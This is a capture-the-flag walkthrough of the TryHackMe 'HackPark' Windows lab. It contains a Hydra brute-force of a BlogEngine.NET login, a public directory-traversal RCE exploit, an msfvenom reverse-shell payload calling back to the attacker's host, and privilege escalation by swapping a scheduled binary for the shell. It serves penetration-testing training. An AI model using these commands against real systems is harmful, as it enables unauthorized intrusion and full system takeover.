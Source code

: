 ```yaml
---
layout: post
title: "HackPark"
description: "Bruteforce a login with Hydra, use a public exploit, and hijack the binary to escalate privileges on the Windows machine."
---
```


[HackPark](https://tryhackme.com/room/hackpark) is the third machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration

Nmap scan:
```
nmap -sC -sV -o nmap.txt 10.10.37.35
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-15 09:09 EDT
Nmap scan report for 10.10.37.35
Host is up (0.092s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries
| /Account/*.* /search /search.aspx /error404.aspx
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-10-15T13:10:03+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.37 seconds
```
By navigating to the website is running on port `80` we can discover a login page located here:
```
http://10.10.37.35/Account/login.aspx?ReturnURL=/admin/
```

---

## Exploitation

All manual attempts to guess the password failed, let's try some good old brute force.

As we are trying to get access to the webserver, I normally would go for `Burp Suite` and it's built-in `Intruder` (Ctrl+I) or [TurboIntruder](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack).  
However, `Hydra` is a powerful Swiss Army knife in your arsenal, so let's have a look at `Hydra`'s syntax for instance.
First, capture the login attempt with `Burp Suite`, for example.
Second, specify a wordlist and the protocol, use `^USER^`, and `^PASS^` where it's needed, and don't forget to use the `:` as a separator.

For this web server we will need something like that:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt  10.10.37.35  http-post-form "/Account/login.aspx:__VIEWSTATE=f1XkCZ4kIN%2Bq%2B9IFJ%2FbMKkO52zKy84bKCcjkkfUsR4x3x%2F5fEkxpzV%2FRKXCMJuCsCKWpsKyzQK4aARoel4q7itZn9osOnSwWsHTgXeEJhgeFpWIv7IOa717%2Fse9rAljZe9dyFtPdvl7uTYZzRGKtW8hqV%2F1Np0H5BAVotuzLmN3%2FCbDw&__EVENTVALIDATION=GtojKnDeo2jldhCXNJBmvWGBP6cDL8kpk8%2F34UpQahQt23y3jWrXbS41IEutWfw6i15bxNkkkxKzaIjD0gWVqUh0PHxU7p4EuDWXsz4V8iZPoUpU7L9gxEwweFHlQmLSfuhVzsF4B0wIJNMDaqdpnX9H469MYRbw1gbwrHAzrtaH0B%2FV&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

[80][http-post-form] host: 10.10.37.35   login: admin   password: ********
```
Pay attention to the `:Login failed` at the end of the command. This is the response from the webserver on an attempt to sign in with incorrect credentials. It will be different on other boxes.

Now we have access to the `Admin` section of the site. By navigating to the `About` page, we can learn that version of the engine is `3.3.6.0`.
Check available exploits:
```
searchsploit BlogEngine.NET 3.3.6
```

 Exploit Title | Path
 --- | ---
 BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution | aspx/webapps/46353.cs
 BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code | aspx/webapps/47010.py
 BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal | aspx/webapps/47035.py
 BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution | aspx/webapps/47011.py
 BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection | aspx/webapps/47014.py



Our goal is to get the shell, so let's try `RCE` first:
```
searchsploit -m aspx/webapps/46353.cs
```
Move mentioned in the exploit part of the script to the file `PostView.ascx`.
Navigate to the edit page and upload the file via the `File manager` option:
```
http://10.10.37.35/admin/app/editor/editpost.cshtml
```
Open a session of `nc` listener on mentioned in the exploit port.
To trigger the shell you should navigate to `?theme=../../App_Data/files`
```
10.10.37.35/?theme=../../App_Data/files
```
Catch your shell:
```
sudo nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.11.19.53] from (UNKNOWN) [10.10.37.35] 49274
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

This shell is not so stable, so let's generate another one:
```
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.11.19.53 LPORT=53 -f exe -o shell.exe
```
Let's use [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) this time to upload the shell.
Navigate to the folder which you would like to share via `SMB` and type the following:
```
smbserver.py carrotcake .
```
On the client:
```
cd C:\Windows\Temp
copy \\10.11.19.53\carrotcake\shell.exe

C:\Windows\Temp>copy \\10.11.19.53\carrotcake\shell.exe
        1 file(s) copied.
```
Open the `nc` listener on port `53` and run the shell:
```
C:\Windows\Temp>shell.exe
```

---

## PrivEsc

And again, no `Metasploit` this time.

Grab a `x86` version of `winPEAS` from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/x86/Release).
Upload it to the client the same way as you just did with the shell.

`WinPEAS` will highlight the uncommon binary:
```
WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running  
```
Navigate to the `C:\Program Files (x86)\SystemScheduler\Events` to check logs.  
It seems that `Message.exe` is constantly restarting by `Administrator`:
```
10/15/20 11:52:06,Process Ended. PID:1528,ExitCode:956628994,Message.exe (Administrator)
10/15/20 11:53:05,Event Started Ok, (Administrator)
10/15/20 11:53:07,Process Ended. PID:1656,ExitCode:956628994,Message.exe (Administrator)
10/15/20 11:54:06,Event Started Ok, (Administrator)
10/15/20 11:54:07,Process Ended. PID:1804,ExitCode:956628994,Message.exe (Administrator)
10/15/20 11:55:06,Event Started Ok, (Administrator)
10/15/20 11:55:07,Process Ended. PID:32,ExitCode:956628994,Message.exe (Administrator)
10/15/20 11:56:06,Event Started Ok, (Administrator)
10/15/20 11:56:07,Process Ended. PID:1440,ExitCode:956628994,Message.exe (Administrator)
```

Let's try to replace the `Message.exe` by a reverse shell:

```
C:\Program Files (x86)\SystemScheduler>ren Message.exe Message.exe.old
C:\Program Files (x86)\SystemScheduler>copy \\10.11.19.53\carrotcake\shell.exe
        1 file(s) copied.
C:\Program Files (x86)\SystemScheduler>ren shell.exe Message.exe
```

Open another session of `nc` and wait about 30 seconds.
Hooray, you got the `Administrator` shell.

---

## Takeaway
- Always pay attention to the logs if you're stuck
- Nothing is wrong with `Metasploit`. Just make sure that you understand how the exploits that you're using works under the cape.
- Some exploits (especially if you are exploiting CRON jobs) will test your patience
